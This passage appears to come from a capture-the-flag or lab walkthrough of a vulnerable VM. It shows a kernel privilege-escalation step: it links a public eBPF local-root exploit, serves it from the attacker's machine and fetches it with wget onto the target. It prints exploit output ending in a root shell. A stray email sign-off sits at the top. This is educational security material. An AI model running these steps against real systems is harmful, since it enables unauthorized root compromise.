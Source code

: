 ```bash
Thanks and have a blessed week!

-Brian Johnson
7 Minute Security
```

## Privilege Escalation
### Kernel Exploitation

We can't finish our mission without get root, the kernel version for this system allows for arbitrary read/write access to the linux kernel, bypassing SMEP/SMAP, you can download the exploit [here](https://raw.githubusercontent.com/offensive-security/exploitdb/master/exploits/linux/local/45010.c).


I started a web server with php on my local machine on port 80.

```bash
root@kali:~$ php -S 192.168.179.1:80 
```

Then I transferred the exploit to the target machine, compiled it and ran it.

```bash
bigtommysenior@CallahanAutoSrv01:/tmp$ wget 192.168.179.1/45010.c -O r00t.c

bigtommysenior@CallahanAutoSrv01:/tmp$ ./r00t 
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff880016d9b500
[*] Leaking sock struct from ffff880016d38000
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff8800130aa780
[*] UID from cred structure: 1002, matches the current: 1002
[*] hammering cred structure at ffff8800130aa780
[*] credentials patched, launching shell...
# id
uid=0(root) gid=0(root) groups=0(root),1002(bigtommysenior)
```


